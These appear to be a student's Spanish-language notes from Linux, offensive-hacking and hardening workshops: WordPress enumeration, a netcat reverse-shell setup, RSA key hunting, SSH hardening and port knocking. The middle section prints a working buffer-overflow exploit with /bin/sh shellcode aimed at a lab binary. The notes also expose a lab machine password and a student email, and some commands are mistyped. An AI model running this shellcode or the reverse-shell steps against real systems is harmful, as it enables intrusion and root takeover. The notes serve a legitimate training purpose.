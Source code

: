 # LINUX TALLER

## VIM
:wq write qui
:q! quit and force

## XARGAS
ejecuta algo como argumento final un output

## ALIAS
alias loqueyoquiera="ls"    cerrando la sessión pierdes el alias
para hacerlo fijo meter en /.bashrc el alias

# TALLER HACKING(Ganar root en una maquina con una pagina web que utiliza Wordpress)

## WPscan
utilzado para sacar información sobre los usuarios que se utilizan en la pagina basada en wordpress
también se usa como brute-force para paginas web basadas en wordpress

## Google dorking
buscador más profundo de información
site: sitio "keywoards"

## Netcad
Utilizado para abrir puertos en la maquina a utilizar como reverse shell
netcad -nvlp "puerto puesto" https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


## SSH
es posible utilizar la llave RSA para poder entrar con ssh utilizando el flag -i

buscar en un directorio llaves RSA existentes y utilizables:
find. -type f- -exec sh -c 'echo "Analizando archivo: $1"; ssh-keygen -l -f $1' _ {} \;

## DATOS TAREA OPCIONAL(COMPLETADA)
contraseña maquina wido T4ll3r_H4ck1nG_2024!
correo para el premio: sermomo3@alumni.uv.es


# Ejercicio extra Taller Hacking Ofensivo
**Ganar root privileges de una maquina utilizando una vulnerabilidad de buffer overflow**

run $(python2 -c 'print "A"*88')


run $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


/home/wido/pruebas_seguridad/script $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


# TALLER HARDENING
Asegurar servidores y servicios.

## FIREWALL
iptables -L -nv (muestra las reglas)
preservar logs de las posibles conexiones
LAMP(Linux Apache MySQL PHP) para servidor web
VESTA
Nestia es un gestor instalable open source para gestionar el servidor

## Security SSH
Cambio de puerto sobre el 1000
Bloquear acceso de root utilizando SSH (permitrootlogin no)
Autenticazión de password (password authentication)
Archivo de config de ssh /etc/ssh/sshd_config

## PORT KNOCKING
Configuras firewalls que te permite conectar a diferentes puertos para luego conseguir abilitar la regla de abertura de SSH. En pocas palabras, tocas ciertos puertos configurados en el dispositivo y así puedes abrir y cerrar puertos.
knockd es el servicio utilizable(/etc/knockd.conf y /etc/default/knockd)
START_KNCOKD =1 para abilitar el knocking
KNOCKD_OPTS="-i eth0" para cambiar la interfaz a utilizar y luego abilitar con systemctl start knockd
knock -d 300 10.5.0.10(IP) 2024 2000 9898 para nockear y luego hacer ssh
y para cerrar knock -d 300 %IP% 9898 2000 2024

## OSSEC(HIDS)